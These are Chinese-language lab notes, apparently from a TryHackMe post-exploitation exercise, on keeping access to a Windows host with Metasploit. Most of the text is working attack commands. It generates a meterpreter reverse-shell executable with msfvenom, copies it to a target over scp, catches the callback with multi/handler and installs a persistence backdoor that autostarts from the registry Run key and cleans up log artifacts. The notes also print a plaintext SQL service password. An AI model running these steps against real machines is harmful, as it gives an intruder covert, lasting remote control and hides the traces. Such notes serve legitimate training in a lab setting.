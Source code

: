 什麼是 SQL 服務密碼
MYpassword123#

```



# metasploit 維持訪問


```
反向shell payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe


複製到目標機
scp shell.exe  Administrator@10.10.173.144:shell.exe


開啟 msfconsole
msfconsole -q


use exploit/multi/handler


設置 payload
set payload windows/meterpreter/reverse_tcp


run
```

### 目標機上打開 shell.exe 就會反彈 meterpreter shell，然後我們將在其中運行持久性模塊。

```
bg 
回到 background

use exploit/windows/local/persistence
此模塊每 10 秒發送一次有效負載


sessions 
查看會話


set session xxx


run

```

### 分析後門創建過程：
```
1.寫入VBS 腳本到目標機的C:\Users\Administrator\AppDats\Local\Temp\UKtAHmUJLNPK.vbs
2.安裝VBS腳本對應的註冊表文件SfKxXfe（放在Run文件夾下）並設置為開機自動運行
3.清理後門創建過程中產生的和日誌相關的RC（資源）文件
```






### 參考:
https://www.cnblogs.com/Hekeats-L/p/16810537.html

https://tryhackme.com/room/postexploit